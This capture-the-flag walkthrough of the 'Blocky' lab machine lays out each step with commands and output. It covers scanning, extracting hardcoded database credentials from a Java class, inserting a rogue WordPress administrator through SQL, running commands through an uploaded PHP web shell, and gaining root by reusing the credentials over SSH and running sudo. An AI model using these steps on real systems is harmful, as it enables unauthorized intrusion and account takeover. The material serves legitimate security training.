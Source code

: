 # Blocky - 10.10.10.37

## Nmap Scan
```
nmap -v -n -A 10.10.10.37
```
Results:
```
msf exploit(handler) > services -R 10.10.10.37

Services
========

host     	port  proto  name	state   info
----     	----  -----  ----	-----   ----
10.10.10.37  21	tcp	ftp 	open	ProFTPD 1.3.5a
10.10.10.37  22	tcp	ssh 	open	OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 Ubuntu Linux; protocol 2.0
10.10.10.37  80	tcp	http	open	Apache httpd 2.4.18 (Ubuntu)
10.10.10.37  8192  tcp	sophos  closed
```

### Apache server

Good stuff, let's start a bunch of scans and go watch a movie or something.
```sh
dirb http://10.10.10.37 /usr/share/dirb/wordlists/common.txt
```
```
uniscan -u 10.10.10.37 -qweds
```
```
wpscan 10.10.10.37
```

Meanwhile, trying to crack a password for WP or phpMyAdmin gives no result.

~30 minutes down and ```dirb``` gives something interesting, an index with 2 .jar files.
```
==> DIRECTORY: http://10.10.10.37/plugins/files/
```
The applications might contain some creds hardcoded.
```sh
grep -r "sql"
Binary file 1/me/ryanhamshire/griefprevention/DatabaseDataStore.class matches
Binary file com/myfirstplugin/BlockyCore.class matches
```
BlockyCore hits the mark
```
hexdump -C com/myfirstplugin/BlockyCore.class
...
00000060  3b 01 00 07 73 71 6c 55  73 65 72 01 00 07 73 71  |;...sqlUser...sq|
00000070  6c 50 61 73 73 01 00 06  3c 69 6e 69 74 3e 01 00  |lPass...<init>..|
00000080  03 28 29 56 01 00 04 43  6f 64 65 0a 00 03 00 0d  |.()V...Code.....|
00000090  0c 00 09 00 0a 08 00 0f  01 00 09 6c 6f 63 61 6c  |...........local|
000000a0  68 6f 73 74 09 00 01 00  11 0c 00 05 00 06 08 00  |host............|
000000b0  13 01 00 04 72 6f 6f 74  09 00 01 00 15 0c 00 07  |....root........|
000000c0  00 06 08 00 17 01 00 17  38 59 73 71 66 43 54 6e  |........8YsqfCTn|
000000d0  76 78 41 55 65 64 75 7a  6a 4e 53 58 65 32 32 09  |vxAUeduzjNSXe22.|
```

Awesome :tada: Having phpMyAdmin access, it becomes trivial to get a WP access.

Creating a new user
```sql
INSERT INTO `wp_users` (`ID`, `user_login`, `user_pass`, `user_nicename`, `user_email`, `user_url`, `user_registered`, `user_activation_key`, `user_status`, `display_name`) VALUES ('1337', 'kingpin', MD5('toor'), '', 'kingpin@nsa.gov', '', '2017-09-01 00:00:00', '', '0', '');
```
Give admin privs
```sql
INSERT INTO `wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) VALUES (NULL, '1337', 'wp-capabilities', 'a:1:{s:13:"administrator";s:1:"1";}'), (NULL, '1337', 'wp_user_level', '10');
```

Since there is an access to admin account, upload a php shell to the website.
Here is a sample [shell plugin](https://github.com/leonjza/wordpress-shell). Alternatively make your own with ```msfvenom```.

Got www-data.

```bash
root@kingpin:~ curl -v "http://10.10.10.37/wp-content/plugins/shell/shell.php?$(python -c 'import urllib; print urllib.urlencode({"cmd":"uname -a; whoami"})')"
*   Trying 10.10.10.37...
* TCP_NODELAY set
* Connected to 10.10.10.37 (10.10.10.37) port 80 (#0)
> GET /wp-content/plugins/shell/shell.php?cmd=uname+-a%3B+whoami HTTP/1.1
> Host: 10.10.10.37
> User-Agent: curl/7.55.1
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Tue, 31 Oct 2017 03:56:38 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 114
< Content-Type: text/html; charset=UTF-8
<
Linux Blocky 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data
* Connection #0 to host 10.10.10.37 left intact

```

Enumerate users on the system.
```bash
root@kingpin:~/Downloads/blocky# curl -v "http://10.10.10.37/wp-content/plugins/shell/shell.php?$(python -c 'import urllib; print urllib.urlencode({"cmd":"getent passwd"})')"
...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
notch:x:1000:1000:notch,,,:/home/notch:/bin/bash #same as WP admin
mysql:x:110:117:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:111:65534::/run/proftpd:/bin/false
ftp:x:112:65534::/srv/ftp:/bin/false
sshd:x:113:65534::/var/run/sshd:/usr/sbin/nologin
```
There is an account ```notch```, the same username as Wordpress administrator. So the credentials from phpMyAdmin might be in use.

### SSH

Trying to login with phpMyAdmin creds.
```sh
root@kingpin:~$ ssh root@10.10.10.37 #no luck
root@10.10.10.37s password:
Permission denied, please try again.

root@kingpin:~/$ ssh notch@10.10.10.37 # username from WP
notch@10.10.10.37s password:
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management: 	https://landscape.canonical.com
 * Support:    	https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.

Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$
```
## Getting root

The user appears to be a part of sudo group, thus can simply switch to root.

```
notch@Blocky:~$ groups notch
notch : notch adm cdrom sudo dip plugdev lxd lpadmin sambashare
notch@Blocky:~$ sudo su #sick privesc
[sudo] password for notch:
root@Blocky:/home/notch#
```

